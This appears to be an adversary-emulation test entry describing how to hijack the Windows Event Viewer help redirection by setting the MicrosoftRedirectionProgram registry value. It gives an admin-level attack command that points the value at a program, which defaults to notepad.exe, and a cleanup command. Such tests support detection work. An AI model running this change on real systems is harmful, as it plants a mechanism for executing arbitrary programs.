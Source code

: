 



<br/>
<br/>

## Atomic Test #48 - Event Viewer Registry Modification - Redirection Program
Modify event viewer registry values to alter the behavior of the online help redirection. Upon opening an event in event viewer and attempting to view the help page for the event, it will execute the program defined in the redirection program registry entry.

**Supported Platforms:** Windows


**auto_generated_guid:** 81483501-b8a5-4225-8b32-52128e2f69db





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| redirection_program | Path of the program to execute upon opening the event help | path | C:&#92;windows&#92;system32&#92;notepad.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Event Viewer" /v MicrosoftRedirectionProgram /t REG_EXPAND_SZ /d "#{redirection_program}" /f
```

#### Cleanup Commands:
```cmd
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Event Viewer" /v MicrosoftRedirectionProgram /t REG_EXPAND_SZ /f
```





<br/>
